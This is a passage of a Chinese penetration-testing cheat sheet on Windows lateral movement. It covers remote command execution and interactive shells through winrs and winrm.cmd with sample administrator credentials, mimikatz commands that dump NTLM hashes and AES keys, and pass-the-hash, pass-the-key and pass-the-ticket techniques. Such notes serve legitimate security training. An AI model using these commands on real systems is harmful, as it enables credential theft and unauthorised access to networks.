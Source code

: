 winrs是Windows上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行WinRM的服务器上执行命令。要求通信双方都安装了WinRM服务。

```plain
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"
```

## [**Winrm.cmd**](#toc_winrmcmd)

winrm.cmd允许WMI对象通过WinRm传输进行远程交互，在本地或远程计算机上枚举WMI对象实例或调用WMI类方法。比如可以通过调用Win32\_Process类的Create方法来创建远程实例。

```plain
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@
```

## [Evil-Winrm](#toc_evil-winrm)

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

# [PTH&PTK&PTT（hash、key、ticket传递）](#toc_pthptkptthashkeyticket)

```plain
PTH(pass the hash)   #利用 LM 或 NTLM 的值进行的渗透测试
PTT(pass the ticket)  #利用的票据凭证 TGT 进行的渗透测试
PTK(pass the key)   #利用的 ekeys aes256 进行的渗透测试
```

**PTH和PTK**

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功**。对于 8.1/2012r2，安装补丁 **kb2871997** 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

```plain
# mimikatz
privilege::debug      
# NTLM
sekurlsa::logonPasswords     
# AES
sekurlsa::ekeys
```

**总结：KB2871997 补丁后的影响**

[https://www.freebuf.com/column/220740.html](https://www.freebuf.com/column/220740.html)

**PTH：打补丁前任意用户都可以连接，打了补丁后只能 administrator 用户才可以连接**

**PTK：打补丁前不能连接，打补丁后才能任意用户都可以连接（采用 aes256 连接）**
